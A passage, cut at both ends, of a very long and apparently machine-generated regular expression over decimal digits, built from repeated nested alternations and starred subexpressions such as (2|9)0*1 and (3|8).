|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|6|(3|8)0*5)|(((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(0|10*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|10*5|4)*(((((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(0|10*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|10*4|5)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(4|(2|9)0*6)|40*6|(2|9))|(60*1|7)((2|9)0*1|(3|8))*(4|(2|9)0*6)|0|60*6)|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(4|(2|9)0*6)|40*6|(2|9))|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(4|(2|9)0*6)|5|(3|8)0*6)|(((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(4|(2|9)0*6)|40*6|(2|9))|(60*1|7)((2|9)0*1|(3|8))*(4|(2|9)0*6)|0|60*6)|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(4|(2|9)0*6)|40*6|(2|9))|(0|10*1)((2|9)0*1|(3|8))*(4|(2|9)0*6)|10*6|7)|((((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(4|50*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|50*(3|8)|6)(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(4|50*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|1|50*4)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(4|(2|9)0*6)|40*6|(2|9))|(60*1|7)((2|9)0*1|(3|8))*(4|(2|9)0*6)|0|60*6)|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(4|(2|9)0*6)|40*6|(2|9))|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(4|(2|9)0*6)|5|(3|8)0*6)|(((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(4|50*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|50*(3|8)|6)(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(4|(2|9)0*6)|40*6|(2|9))|(60*1|7)((2|9)0*1|(3|8))*(4|(2|9)0*6)|0|60*6)|((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(4|(2|9)0*6)|40*6|(2|9))|(4|50*1)((2|9)0*1|(3|8))*(4|(2|9)0*6)|50*6|(3|8))|(((((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(6|70*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|4|70*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(6|70*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|70*4|(3|8))(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|6|(3|8)0*5)|(((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(6|70*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|4|70*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(6|70*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|70*5|(2|9))(((((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(0|10*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|10*4|5)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|6|(3|8)0*5)|(((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(0|10*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|10*5|4)*(((((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(0|10*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|10*4|5)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|